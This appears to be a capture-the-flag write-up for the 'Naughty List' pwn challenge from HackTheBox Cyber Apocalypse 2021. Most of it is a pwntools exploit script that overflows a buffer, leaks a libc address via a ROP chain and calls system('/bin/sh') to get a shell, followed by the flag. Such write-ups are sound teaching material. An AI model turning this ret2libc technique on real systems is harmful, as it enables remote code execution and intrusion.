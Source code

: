 ```yaml
---
name: Naughty List (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Naughty List (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Naughty List

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3GGpyEkt8GE/0.jpg)](https://youtu.be/3GGpyEkt8GE?t=916s "HTB Cyber Apocalypse CTF 2021: Naughty List")

## Challenge Description

> The Elves have stolen Santa's 📜 and now he does not know who was good and who was bad. This form will help him recreate his list and send out gifts. Were you good enough or naughty?

## Solution

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', b'crypto')
    p.sendlineafter(b':', b'cat')
    p.sendlineafter(b':', b'18')
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './naughty_list'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

ret = 0x400756

# Start program
io = start()

io.sendlineafter(b':', b'crypto')
io.sendlineafter(b':', b'cat')
io.sendlineafter(b':', b'18')

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
rop.puts(elf.got.puts)
rop.get_descr()

# Send the payload
io.sendlineafter(':', flat({offset: rop.chain()}))

io.recvlines(6)  # Receive up to leaked address

# Retrieve got.puts address
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# Send the payload
io.sendline(flat({offset: [ret, rop.chain()]}))

# Got Shell?
io.interactive()
```

Flag: `HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}`
